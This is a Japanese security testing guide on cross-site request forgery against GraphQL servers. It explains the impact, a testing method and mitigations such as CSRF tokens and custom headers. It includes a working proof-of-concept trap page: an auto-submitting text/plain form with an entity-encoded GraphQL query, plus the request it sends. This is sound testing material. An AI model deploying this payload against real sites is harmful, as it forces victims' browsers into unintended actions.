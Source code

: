 # クロスサイトリクエストフォージェリ

## 概要

GraphQLサーバの実装不備によってクライアントから送信されるリクエストが十分検証できていない場合、クロスサイトリクエストフォージェリ(CSRF)攻撃に対して脆弱になる可能性があります。

## 影響
CSRFが悪用された場合と同様の影響を受けます。GraphQL スキーマで定義されているMutationのような副作用のある処理では、攻撃者によって設置された罠ページを経由することにより被害者の意図しない処理を実行させられます。お問い合わせ機能や、チャットへの投稿、商品購入のような金銭授受に関わる処理など、影響については悪用される機能によって異なります。

## 検証方法

CSRFの検証方法は一般のWebアプリケーションのテスト方法と同様です。
検査対象のアプリケーションとは異なるオリジンの罠ページを用意し、被害者ユーザーの意図にかかわらずリクエストを送信できるかを検証します。

- [Testing for Cross Site Request Forgery](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery)
- [That single GraphQL issue that you keep missing](https://blog.doyensec.com/2021/05/20/graphql-csrf.html)

通常、GraphQLのクエリを送信するリクエストのContent-Typeは「application/json」で定義されます。
サーバの実装不備などによってContent-Typeが正しく検証されず、「application/json」以外も受け入れてしまう挙動の場合、CSRFに対して脆弱になる可能性があります。
一例として、以下のような罠を含んだページを閲覧することでリクエストが送信され、サーバ側で受け入れられるかを検証します。

```html
<body onload="document.forms[0].submit()">
    <form action="https://[TARGET_DOMAIN]/graphql" method="POST" enctype="text/plain">
        <textarea name="&#x71;&#x75;&#x65;&#x72;&#x79;&#x7b;&#x41;&#x6c;&#x6c;&#x42;&#x6f;&#x6f;&#x6b;&#x73;&#x7b;&#x42;&#x6f;&#x6f;&#x6b;&#x73;&#x20;&#x7b;&#x69;&#x64;&#x2c;&#x74;&#x69;&#x74;&#x6c;&#x65;&#x2c;&#x61;&#x75;&#x74;&#x68;&#x6f;&#x72;&#x2c;&#x23;" type="hidden">x
}}}</textarea>
    </form>
</body>
```

この罠サイトは以下のようなリクエストを送信します。
```
POST /graphql HTTP/1.1
Host: [TARGET_DOMAIN]
Content-Length: 48
Origin: http://[ATTACKER_DOMAIN]
Content-Type: text/plain
User-Agent: [UA]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[ATTACKER_DOMAIN]
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Connection: close

query{AllBooks{Books {id,title,author,#=x
}}}

```

## 対策
対策についても一般のWebアプリケーションの対策方法と同様です。
CSRFトークンやCookieの二重送信などが基本的な対策方法として挙げられますが、先も述べたように、通常GraphQLリクエストのContent-Typeは「application/json」で定義されます。
そのため、GraphQLのようなアプリケーションはAJAXを用いたクライアントアプリケーションとの結び付きが強く、カスタムリクエストヘッダを用いた対策がしばしば提案されます。
カスタムヘッダを設定したリクエストは同一生成元ポリシーによる制限を受けるため、CSRFの対策に有効です。

- [Cross-Site Request Forgery Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)